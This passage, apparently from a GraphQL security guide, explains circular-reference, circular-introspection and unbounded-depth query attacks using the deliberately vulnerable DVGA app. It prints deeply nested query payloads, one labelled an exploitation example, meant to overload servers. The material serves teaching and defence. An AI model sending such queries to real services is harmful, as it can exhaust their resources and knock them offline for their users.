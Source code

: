 ```
              place
            }
          }
        }
      }
    }
  }
}
```

### How it might look in real application
Below is a screenshot taken from the graphical representation of DVGA (Damn-Vulnerable-GraphQL-Application), with a highlighted circular reference:

![image](https://github.com/user-attachments/assets/4d2a6a27-5dbf-4827-bb8f-05cf535b1a31)

A circular relationship exists in GraphQL’s built-in introspection system.
Therefore, when introspection is enabled, you could potentially have access to a circular query right out of the gate. Here is another example, but with circular introspection:
```
query {
  __schema {
    types {
      name
      fields {
        name
        type {
          name
          kind
          ofType {
            name
            kind
            ofType {
              name
              kind
                  # Keep nesting as deep as possible
            }
          }
        }
      }
    }
  }
}
```
## Unbounded Query Depth
GraphQL lets clients build deeply nested queries that explore connections between objects. Without effective safeguards, attackers can design queries that push servers to handle exponentially growing workloads.

### exploitation example:
```
query {
  user(id: "1") {
    friends {
      friends {
        friends {
          friends {
            friends {
              # Keep nesting as deep as possible
              name
              email
              phoneNumber
```
